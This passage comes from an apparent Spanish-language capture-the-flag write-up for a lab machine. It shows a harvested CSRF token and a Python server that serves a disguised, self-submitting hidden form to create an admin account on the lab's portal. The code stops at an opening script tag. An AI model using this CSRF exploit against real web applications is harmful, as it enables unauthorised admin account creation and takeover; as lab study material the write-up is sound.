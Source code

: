 ```php
        }
    }
}
?>

............................<RESTO DE CODIGO>......................................
```

Pero necesitamos un `TOKEN` valido para poder hacer que esto funcione, si investigamos bien el codigo donde creamos la noticia en el panel, veremos lo siguiente:

```html
<input type="hidden" name="csrf_token" value="058430bcfe9dbf937a852e52cab448aa">
```

Vemos que hemos encontrado un `TOKEN` posiblemente valido, vamos a montarnos un script de `python3` para poner un servidor a la escucha y realizar esa redireccion para que cree un usuario (`CSRF`).

> server.py

```python
#!/usr/bin/env python3
from http.server import HTTPServer, BaseHTTPRequestHandler
import random
import string

# CONFIGURACIÓN
CSRF_TOKEN = "058430bcfe9dbf937a852e52cab448aa"  # Tu token
YOUR_IP = "<IP>"

class AutoSubmitSSRFHandler(BaseHTTPRequestHandler):
    
    def do_GET(self):
        client_ip = self.client_address[0]
        print(f"\n[+] Headless Chrome accedió desde: {client_ip}")
        print(f"[+] Path: {self.path}")
        
        # Generar credenciales únicas para cada visita
        random_suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=6))
        username = f"admin{random_suffix}"
        password = f"Pass{random_suffix}!"
        
        # HTML que auto-envía el formulario con nuestro token CSRF
        html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>Security Portal - Loading</title>
</head>
<body>
    <h2>Security Portal - Initializing...</h2>
    <p>Please wait while we configure your admin access...</p>
    
    <!-- Formulario oculto que se auto-envía -->
    <form id="adminForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
        <input type="hidden" name="username" value="{username}">
        <input type="hidden" name="password" value="{password}">
        <input type="hidden" name="full_name" value="Auto Admin {random_suffix}">
        <input type="hidden" name="email" value="{username}@guardian.htb">
        <input type="hidden" name="dob" value="1990-01-01">
        <input type="hidden" name="address" value="Auto Created">
        <input type="hidden" name="user_role" value="admin">
        <input type="hidden" name="csrf_token" value="{CSRF_TOKEN}">
    </form>
    
    <script>
```